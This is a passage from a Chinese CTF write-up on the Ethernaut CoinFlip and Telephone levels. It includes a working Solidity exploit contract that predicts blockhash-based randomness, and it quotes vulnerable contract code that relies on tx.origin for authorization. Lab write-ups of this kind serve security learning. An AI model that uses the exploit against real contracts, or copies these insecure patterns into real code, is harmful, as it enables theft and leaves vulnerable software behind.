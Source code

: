 要连续猜中10次，是随机数的问题了，隐约还记得区块链的随机数问题很大，查了一下，确实是区块链随机数的问题。
因为这里：`uint256 blockValue = uint256(blockhash(block.number.sub(1)));`，这个值是我们可以在本地算出来的，再加上`FACTOR`也是知道的，因此就可以直接攻击。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210412233837181.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)
还可以再学习一下区块链的一些知识，虽然只是稍微的了解：
[区块链入门教程](https://www.ruanyifeng.com/blog/2017/12/blockchain-tutorial.html)

写个攻击POC：

```javascript
pragma solidity ^0.6.0;



interface CoinFlip {
  function flip(bool _guess) external returns (bool) ;
}

contract Attack {
    CoinFlip constant private target = CoinFlip(0x41b21013f1470Fcd1e08988ef87ed88aD38037a1);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function feng() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue/FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

只要能成功的发送10次feng()函数就可以了。因为在本地进行了预测。
但是其中可能会有失败的，主要还是因为：

```javascript
    if (lastHash == blockValue) {
      revert();
    }
```

即一个区块只能成功一次，而：
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021041223482695.png)
因此并不是那种10分钟才能弄一次。


# Telephone

源码：

```javascript
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```